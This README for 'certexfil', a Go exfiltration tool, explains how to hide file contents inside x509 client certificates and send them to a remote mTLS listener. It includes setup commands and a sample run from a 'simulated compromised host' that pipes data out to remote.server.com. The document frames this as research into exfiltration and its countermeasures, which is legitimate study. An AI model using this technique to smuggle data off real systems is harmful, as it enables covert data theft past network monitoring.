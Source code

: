 # X509 Digital Certificate Exfiltration Exploration

## Overview

My exploration into data exfiltration and related countermeasures has led to this initial foray into Go. The aim is to devise a swift method for transforming a payload (via file reading) into a custom x509 digital certificate.

Further details can be found at [this Medium article](https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0).

For those new to certificates and mTLS, these insightful resources are recommended:

* [TLS, X509, and Mutual Authentication Explained](https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401)
* [A Step-by-Step Guide to mTLS in Go](https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go)

Certexfil operates in three modes: CA generation, client, and listener.

* `--ca` initializes a CA for certificate creation and authentication.
* `--payload` incorporates a file payload into a new client certificate for mTLS with a listener service.
* `--listen` launches a service that validates mTLS clients and extracts embedded payloads.

## Usage

### Setting Up CA and Listener on a Remote Server

To create `server_cert.pem` and `server_key.pem` for mTLS:

```shell
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Ensure the certexfil binary and ./CERTS directory are on your remote server. Then, initiate the mTLS listener:
```shell
remoteserver$ ./certexfil --listen
```

### Client or Simulated Compromised Host
Embedding output as a payload:

```shell
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

## Contact

* @Sourcefrenchy
